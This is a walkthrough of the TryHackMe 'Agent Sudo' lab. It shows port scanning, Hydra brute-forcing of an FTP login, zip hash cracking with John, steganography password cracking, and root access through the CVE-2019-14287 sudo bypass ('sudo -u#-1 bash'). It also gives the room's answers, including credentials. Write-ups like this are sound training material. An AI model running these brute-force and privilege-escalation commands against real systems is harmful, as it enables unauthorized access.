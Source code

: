 ```yaml
---

title: Walkthrough - Agent Sudo
published: true
---
```


You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

![](/assets/agent-sudo01.png)

Enumerate/Exploit/Brute-Force/Hash-Cracking

* * *

## Enumerate

##   How many open ports?

- ``sudo nmap -sS -p- -T4 10.10.97.21 -vvv``
- ``sudo nmap -sC -sV -O -p21,22,80 10.10.97.21``

```shell
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

##   How you redirect yourself to a secret page?

- Changing the User-Agent header to C will let us see ``http://10.10.97.21/agent_C_attention.php`` where we get some more hints

> Attention chris,

> Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

> From,
> Agent R 

##   What is the agent name?

- Chris

* * * 

## Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

##   FTP password

- ``hydra -l chris -P /usr/share/seclists/Passwords/rockyou.txt 10.10.97.21 ftp``
- ``mget *.*``

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Agent-Sudo]
└─$ cat To_agentJ.txt                                                                                  
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- ``binwalk -e cutie.png``
- ``unzip cutie.png``

##   Zip file password

- ``ssh2john 8702.zip > 8702.hash``
- ``john 8702.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

##   steg password

- steg is hiddin inside the other image
- ``stegseek cute-alien.jpg /usr/share/seclists/passwords/rockyou.txt``

```shell
cat cute-alien.jpg.out 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

##   Who is the other agent (in full name)?

- james  

##   SSH password

- hackerrules!

* * * 

## Hash cracking and brute-force

##   What is the user flag?

![](/assets/agent-sudo02.png)

##   What is the incident of the photo called?

- ``scp james@10.10.53.61:/home/james/Alien_autospy.jpg .``
- google reverse image search > images > upload an image
- foxnews
- Roswell alien autopsy

* * * 

## Privilege Escalation

- sudo -l gives us ``(ALL, !root) /bin/bash``
- linpeas give us 
- sudo -V give us 1.8.21p2
- [https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability)
- ``sudo -u#-1 bash``

* * * 